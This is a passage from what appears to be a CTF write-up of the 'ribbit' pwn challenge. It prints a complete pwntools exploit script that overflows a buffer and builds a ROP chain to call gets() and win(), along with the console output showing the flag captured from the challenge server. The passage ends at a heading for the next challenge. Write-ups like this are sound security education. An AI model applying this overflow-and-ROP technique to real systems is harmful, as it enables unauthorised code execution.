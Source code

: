 ## Exploit Script

Our full exploit script becomes the following:
```python
from pwn import *

exe = context.binary = ELF(args.EXE or './ribbit', checksec=False)

io = remote("chal.nbctf.com", 30170)

# Gadget to set register values
pop_rdi = 0x40201f
pop_rsi = 0x40a04e

# Padding
payload = b"A"*40

# Call gets(<address of bss section>)
payload += pack(pop_rdi)
payload += pack(exe.bss())
payload += pack(exe.sym.gets)

# Call win(0xf10c70b33f, <address of bss section>) to pass the if-check and print the flag
payload += pack(pop_rdi)
payload += pack(0xf10c70b33f)
payload += pack(pop_rsi)
payload += pack(exe.bss())
payload += pack(exe.sym.win)

io.recvuntil(b"hole?")
io.sendline(payload)   # Our payload calling win
io.clean()
io.sendline(b"You got this!" + b"B"*8 + b"Just do it!") # The string we write into the bss section

io.interactive()
```
{: file="exploit.py"}

Running the script gives us the flag.
```console
loevland@hp-envy:~/ctf/nbctf/ribbit$ python3 exploit.py
[+] Opening connection to chal.nbctf.com on port 30170: Done
[*] Switching to interactive mode
Thank you for helping my frog! Have a free flag in return.
nbctf{ur_w3lc0m3_qu454r_5abf2e}
```


# Heapnotes
![Challenge](heapnotes_chall.png)

